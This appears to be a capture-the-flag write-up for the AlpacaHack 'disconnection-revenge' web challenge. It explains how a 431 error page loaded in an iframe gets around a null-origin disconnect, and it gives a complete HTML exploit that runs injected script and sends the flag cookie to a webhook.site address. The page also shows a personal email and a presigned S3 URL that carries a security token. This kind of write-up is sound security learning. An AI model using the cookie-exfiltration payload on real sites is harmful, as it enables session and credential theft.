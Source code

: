 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466WADLKCLA%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044354Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJGMEQCIGabDMVTZo%2FwEvKeAiiZ4qW4v8SxCzgAJv4PY3en3eW6AiB22BTqXRoQiBU8QgzUR1cAvtuH35FAYmAH%2BrrpBVv3PyqIBAj9%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMk%2Fdu6s4j5jSTAVBvKtwD6wRTrn0D4dlg%2BHtnPk23mpxyhylXv95G0J7jDp%2FvwXhTqJP3%2BwSMHqYuQ0a9gIal69%2FncPWtZKeKBncpEOt%2BWHFNkcdeKsKMaGM67WQCoQu4U4PGMFaOCdBJN7oJwK%2FrR113JqpuKQPRiyAn2VuLRw46xr57jqbndvvlqdPZbaVMcch8XAOgn7nPgClfQMjHJPCMFuo%2BDkOEG4uDaWsomCP7h3r%2B%2ByQVHZRkPrW5yOzHPuZh%2F7CmcrZPa%2BAMrYEuDmA3LNdDLhShn3ejMGkpI7OzetWrj8SvFTlQ2%2FzjR%2BQhB0gwQHQLinMZ1N5ImXgiiVloWt0JebQICR9Xt%2BQXmI7JRmSN68n0VZ7TwxHirqWo24m9AX9OyG2PgkV3Cdue9zGiQOY41mT%2BnUGqc%2FITWDeX8%2FfIRBnp2gig3u5iCOLz288dPodUSyLrLknVhtHTsm9VuxcAEF1rpTCGOp1O0mu8HsK7LqxrUUTiAJkeBdkyOoG%2FcemUKSgbq8duMpenI4e9vOoRdQMJMdru3BW1v88%2BhbgTq5vXBGbXt8p%2BHKwge7L8i8BlHcim9lugDfKmtYLgZzfF%2FHwlbN2N7M7mn0sZKIVXVRHHXvPDqvrS9cOOW9w4XMqxbCVdh50wwZLFwQY6pgH575rDkQQ5qDdQ2mlaamxYT9D%2F7ORd%2BB7AcncSt7ZVZWPBULyxafLRokHhVoFeXQIc%2FYC5JFoGUdTg7WqWlW7bMD83D0GeVWgOVWlOeOiS32Tq8S%2BlPmos49qImrTdiy2IkAQ%2F1PcaGfdsodpKCnD821QRgkGIlL%2F%2BqTWtC6M5ie%2BqhiZctOI%2FdJW4sNSlYqb%2BJAHhzgvyr8wIZFtjhnt%2BrPKQG9kB\&X-Amz-Signature=6c51ebb92790f76f2f2e5639d4f1a34df00c593b792f546562eb3665a70a8a7e\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
